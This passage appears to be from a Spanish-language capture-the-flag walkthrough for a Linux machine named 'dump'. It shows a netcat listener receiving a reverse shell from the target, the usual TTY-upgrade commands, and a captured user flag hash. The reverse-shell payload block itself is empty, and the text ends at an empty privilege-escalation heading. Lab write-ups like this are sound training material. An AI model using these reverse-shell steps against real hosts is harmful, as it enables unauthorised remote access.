 ```
Linux dump 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64            
dumper@dump:~$ whoami                                                              
dumper
```

Con esto veremos que estaremos dentro vamos a realizar una `reverse shell` para tener una mejor `shell`.

```shell
```

Antes de enviarla vamos a ponernos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora si enviamos lo anterior y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.84] 38774
dumper@dump:~$ whoami
whoami
dumper
```

Vamos a sanitizar la `shell` de la siguiente forma:

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora vamos a leer la `flag` del usuario.

> user.txt

```
cfbe86765c16e9bf8ddc3739f4f270a9
```

## Escalate Privileges

